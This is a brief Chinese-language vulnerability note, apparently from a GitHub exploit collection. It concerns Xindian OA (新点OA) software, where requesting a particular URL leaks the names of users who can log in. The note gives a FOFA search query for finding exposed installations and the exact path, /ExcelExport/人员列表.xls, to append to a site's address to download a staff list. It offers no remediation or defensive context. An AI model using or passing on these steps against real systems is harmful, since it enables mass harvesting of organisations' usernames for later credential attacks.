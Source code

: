 ## 0x00 漏洞背景

        新点OA访问特定的url可以获取网站登录特定的用户名信息
        
        
 ## 0x01 漏洞利用
 
       fofa搜索：app="新点OA"
 
       URL+/ExcelExport/人员列表.xls
       
       
       
       ![图片](https://user-images.githubusercontent.com/118274389/230259190-45be2ff1-8c12-43d5-9f17-0728d4cb1ebd.png)
